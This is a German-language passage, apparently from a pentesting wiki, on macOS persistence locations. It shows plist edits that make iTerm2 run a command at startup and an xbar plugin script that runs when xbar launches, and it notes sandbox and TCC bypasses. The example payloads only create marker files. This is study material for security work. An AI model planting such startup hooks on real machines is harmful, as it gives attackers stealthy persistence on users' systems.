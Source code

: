 Und der Befehl wird in den Einstellungen angezeigt:
```bash
plutil -p com.googlecode.iterm2.plist
{
[...]
"New Bookmarks" => [
0 => {
[...]
"Initial Text" => "touch /tmp/iterm-start-command"
```
Sie können den auszuführenden Befehl mit folgendem festlegen:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" 'touch /tmp/iterm-start-command'" $HOME/Library/Preferences/com.googlecode.iterm2.plist

# Call iTerm
open /Applications/iTerm.app/Contents/MacOS/iTerm2

# Remove
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" ''" $HOME/Library/Preferences/com.googlecode.iterm2.plist
```
{% endcode %}

{% hint style="warning" %}
Hochwahrscheinlich gibt es **andere Möglichkeiten, die iTerm2-Einstellungen zu missbrauchen**, um beliebige Befehle auszuführen.
{% endhint %}

### xbar

Writeup: [https://theevilbit.github.io/beyond/beyond\_0007/](https://theevilbit.github.io/beyond/beyond\_0007/)

* Nützlich, um die Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* Aber xbar muss installiert sein
* TCC-Umgehung: [✅](https://emojipedia.org/check-mark-button)
* Es werden Zugriffsberechtigungen angefordert

#### Standort

* **`~/Library/Application\ Support/xbar/plugins/`**
* **Auslöser**: Sobald xbar ausgeführt wird

#### Beschreibung

Wenn das beliebte Programm [**xbar**](https://github.com/matryer/xbar) installiert ist, ist es möglich, ein Shell-Skript in **`~/Library/Application\ Support/xbar/plugins/`** zu schreiben, das ausgeführt wird, wenn xbar gestartet wird:
```bash
cat > "$HOME/Library/Application Support/xbar/plugins/a.sh" << EOF
#!/bin/bash
touch /tmp/xbar
EOF
chmod +x "$HOME/Library/Application Support/xbar/plugins/a.sh"
```
### Hammerspoon
